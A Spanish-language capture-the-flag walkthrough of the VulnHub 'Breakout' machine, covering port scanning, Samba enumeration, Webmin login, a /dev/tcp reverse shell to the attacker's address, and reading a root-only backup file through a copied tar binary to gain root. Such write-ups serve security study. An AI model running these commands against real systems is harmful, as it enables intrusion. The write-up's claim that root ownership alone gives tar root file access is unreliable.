



# WriteUp: Breakout | VulnHub

### <mark style="color:yellow;">Fase 1: Reconocimiento y Enumeración de Servicios</mark>

Mi análisis comenzó con un escaneo exhaustivo de la red para identificar los servicios expuestos. Utilicé `nmap` con un escaneo rápido de todos los puertos TCP para obtener una visión inicial de la superficie de ataque.

```bash
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.33

PORT      STATE SERVICE
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
10000/tcp open  snet-sensor-mgmt
20000/tcp open  dnp
```

El escaneo inicial reveló cinco puertos abiertos. Para obtener información más detallada sobre los servicios y sus versiones, procedí con un segundo escaneo más profundo, enfocado en los puertos descubiertos.

```bash
nmap -sVC -p80,139,445,10000,20000 192.168.56.33

PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
139/tcp   open  netbios-ssn Samba smbd 4
445/tcp   open  netbios-ssn Samba smbd 4
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
```

Los resultados de este segundo escaneo fueron mucho más reveladores:

* **Puerto 80:** Un servidor web Apache estándar. \
  
* **Puertos 139/445:** Servicios **Samba**, lo que indica una posible compartición de archivos o integración con entornos Windows.
* **Puertos 10000 y 20000:** Dos instancias de **Webmin**, una interfaz de administración de sistemas basada en la web, cada una con una versión diferente del servidor `MiniServ`. \
  

### <mark style="color:yellow;">Fase 2: Análisis de Vectores y Acceso Inicial</mark>

#### <mark style="color:green;">2.1 Enumeración Web y Criptografía Esotérica</mark>

Al inspeccionar el servicio web en el **puerto 80**, me encontré con la página por defecto de Apache, la cual no ofrecía información útil a simple vista.

Sin embargo, una revisión del código fuente HTML reveló un comentario que contenía un mensaje y una cadena de caracteres crípticos.

```
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```

Reconocí inmediatamente el formato como **Brainfuck**, un lenguaje de programación esotérico conocido por su minimalismo extremo. Utilicé un decodificador en línea (dcode.fr) para traducir el código, obteniendo la siguiente cadena de texto:

```
.2uqPEfj3D<P'a-3
```

Esta cadena tenía todas las características de una contraseña compleja. La guardé para su uso posterior.

#### <mark style="color:green;">2.2 Enumeración de Samba</mark>

La presencia de los puertos 139 y 445 (Samba) me llevó a utilizar `enum4linux`, una herramienta diseñada para extraer información de estos servicios, como listas de usuarios, recursos compartidos y políticas de sistema.

```bash
enum4linux 192.168.56.33
```

La herramienta tuvo éxito y, entre la información recopilada, encontró un nombre de usuario válido en el sistema:

```
S-1-22-1-1000 Unix User\cyber (Local User)
```

Ahora poseía dos piezas clave de información: un nombre de usuario (`cyber`) y una contraseña (`.2uqPEfj3D<P'a-3`).

#### <mark style="color:green;">2.3 Explotación de Webmin</mark>

Con las credenciales en mi poder, mi siguiente objetivo fueron las dos interfaces de Webmin en los puertos 10000 y 20000.

Intenté iniciar sesión en ambas interfaces. El intento en el puerto 10000 falló, pero las credenciales fueron aceptadas en la instancia del **puerto 20000**.

La razón más probable de este comportamiento es la configuración de autenticación. La instancia de Webmin en el puerto 20000 seguramente estaba configurada para autenticar a los usuarios contra el sistema local a través de **PAM (Pluggable Authentication Modules)**. Como `cyber` era un usuario válido del sistema Linux subyacente, Webmin validó las credenciales y me concedió el acceso.

Una vez dentro del panel de administración, mi objetivo era encontrar una forma de ejecutar comandos en el sistema. Webmin es una herramienta de administración muy potente, por lo que a menudo incluye terminales web o módulos de ejecución de comandos.

<figure><figcaption></figcaption></figure>

Esta interfaz me proporcionó un vector directo para la ejecución remota de comandos.

### <mark style="color:yellow;">Fase 3: Obtención de Shell y Estabilización</mark>

Para obtener una shell interactiva, utilicé la interfaz de comandos de Webmin para ejecutar un payload de reverse shell. Generé el payload utilizando la herramienta en línea `revshells.com`.

Primero, puse un listener de `netcat` en mi máquina atacante para recibir la conexión entrante.

```bash
nc -lvnp 4444
```

Luego, ejecuté el siguiente comando en la consola de Webmin:

```bash
sh -i >& /dev/tcp/192.168.56.22/4444 0>&1
```

La conexión se estableció de inmediato, proporcionándome una shell en la máquina víctima como el usuario `cyber`.

```bash
listening on [any] 4444 ...
connect to [192.168.56.22] from (UNKNOWN) [192.168.56.34] 33948
sh: 0: can't access tty; job control turned off
$
```

La shell obtenida era no interactiva y muy limitada. Para poder trabajar de manera eficiente, la actualicé a una TTY completamente funcional.

```bash
# Paso 1: Generar una mejor shell con Python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Paso 2: Poner la shell en segundo plano y configurar mi terminal local
Ctrl-Z
stty raw -echo; fg

# Paso 3: Configurar la terminal remota
export TERM=xterm
reset
```

Tras este proceso, obtuve una shell `bash` estable e interactiva.

```bash
cyber@breakout:~$
```

### <mark style="color:yellow;">Fase 4: Escalada de Privilegios</mark>

#### <mark style="color:green;">4.1 Enumeración Local y Análisis del Binario</mark> <mark style="color:green;"></mark><mark style="color:green;">`tar`</mark>

Una vez con una shell estable, comencé la fase de enumeración local para encontrar un vector de escalada de privilegios.

```bash
# Permisos Sudo
sudo -l

# Binarios SUID
find / -perm -u=s -type f 2>/dev/null

# Tareas Programadas (Cron Jobs)
cat /etc/crontab

# Buscar Contraseñas en Archivos
grep -r "password" /var/www/html 2>/dev/null
```

No arrojaron resultados favorables.

Sin embargo, al listar el contenido del directorio personal del usuario `cyber`, encontré un archivo inusual.

```bash
cyber@breakout:~$ ls -la
...
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
-rw-r--r--  1 cyber cyber     48 Oct 19  2021 user.txt
...
```

El archivo `tar` era un ejecutable propiedad del usuario `root`, sobre el cual yo tenía permisos de ejecución. Mi primera hipótesis fue que podría ser un binario personalizado. Para verificarlo, realicé una comprobación forense comparando su hash `sha256` con el del binario del sistema `/bin/tar`.

```bash
cyber@breakout:~$ sha256sum /bin/tar
48ee8ce96a228505db917ebd2912ac983a18f7e1fa27fdbddee4bf3e9f386792  /bin/tar
cyber@breakout:~$ sha256sum ./tar
48ee8ce96a228505db917ebd2912ac983a18f7e1fa27fdbddee4bf3e9f386792  ./tar
```

Los hashes eran idénticos. Esto confirmaba que era una copia del comando `tar` del sistema, pero con una diferencia crucial: al ser propiedad de `root`, los procesos que ejecutara podrían heredar ciertos privilegios de acceso a archivos.

#### <mark style="color:green;">4.2 Explotación de</mark> <mark style="color:green;"></mark><mark style="color:green;">`tar`</mark> <mark style="color:green;"></mark><mark style="color:green;">para Lectura de Archivos</mark>

Continuando con mi enumeración, descubrí un archivo sospechoso en `/var/backups/`.

```bash
cyber@breakout:/var/backups$ ls -la
...
-rw-------  1 root root    17 Oct 20  2021 .old_pass.bak
```

El archivo `.old_pass.bak` pertenecía a `root` y no tenía permisos de lectura para mi usuario. Aquí es donde el binario `tar` local se convirtió en la clave.

Entendí que el comando `tar`, al ejecutarse, accede a los archivos con los privilegios del propietario del binario (en este caso, `root`). Por lo tanto, el proceso de _compresión_ podría leer el archivo protegido. Luego, al _descomprimir_ el archivo resultante, el nuevo archivo sería creado con los permisos del usuario que ejecuta el comando (en este caso, `cyber`), dándome acceso de lectura.

Ejecuté el siguiente procedimiento:

```bash
# 1. Usar el binario local para comprimir el archivo protegido
cyber@breakout:~$ ./tar -cvf compres.tar /var/backups/.old_pass.bak
/var/backups/.old_pass.bak

# 2. Descomprimir el archivo tarball recién creado
cyber@breakout:~$ ./tar -xvf compres.tar
var/backups/.old_pass.bak

# 3. Leer el contenido del archivo extraído, ahora con permisos de mi usuario
cyber@breakout:~$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```

El plan funcionó a la perfección y obtuve una nueva contraseña.

#### <mark style="color:green;">4.3 Acceso como Superusuario</mark>

Con una nueva contraseña en mi poder y ya siendo el usuario `cyber`, la única posibilidad restante era que esta contraseña perteneciera al usuario `root`. Intenté cambiar de usuario con el comando `su`.

```bash
cyber@breakout:~$ su -
Password: Ts&4&YurgtRX(=~h
root@breakout:~# id
uid=0(root) gid=0(root) groups=0(root)
```

El inicio de sesión fue exitoso. Había escalado privilegios y obtenido control total del sistema.

```bash
root@breakout:~# cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}
```

Y con esto, la máquina fue completada.
